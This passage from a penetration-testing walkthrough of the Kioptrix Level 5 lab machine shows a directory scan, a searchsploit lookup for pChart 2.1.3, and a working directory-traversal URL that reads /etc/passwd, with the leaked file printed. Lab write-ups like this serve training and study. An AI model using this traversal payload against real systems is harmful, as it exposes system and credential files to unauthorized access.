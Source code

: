 ```bash
---- Scanning URL: http://192.168.20.148:8080/ ----
+ http://192.168.20.148:8080/cgi-bin/ (CODE:403|SIZE:210)                                                                                        
                                                                                                                                                 
-----------------
END_TIME: Thu Sep  5 13:49:59 2019
DOWNLOADED: 4612 - FOUND: 1
```

#### Browser

Enumerating port 8080 via browser.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%205/Images/browser8080.png?raw=true)

Low Privilege Exploitation
--------------------------

### Vulnerability Identification (Port 80)

Using searchsploit to find appropriate vulnerability in exploit-db database.

```bash
root@kali:~# searchsploit pchart
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
pChart 2.1.3 - Multiple Vulnerabilitie | exploits/php/webapps/31173.txt
--------------------------------------- ----------------------------------------
```

Identifying exploit’s patch and copying it to the clipboard.
```bash
root@kali:~# searchsploit -p 31173
  Exploit: pChart 2.1.3 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/31173
     Path: /usr/share/exploitdb/exploits/php/webapps/31173.txt
File Type: HTML document, ASCII text, with CRLF line terminators

Copied EDB-ID #31173's path to the clipboard.
```

The multiple vulnerabilities are Directory Traversal and Reflected XSS.

In this case Directory Traversal is what will be exploited.

### Local File Inclusion

As per exploit directory traversal is executed in the following fashion:

<http://192.168.20.148/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd>

The exploit yields the following:
```
# $FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
```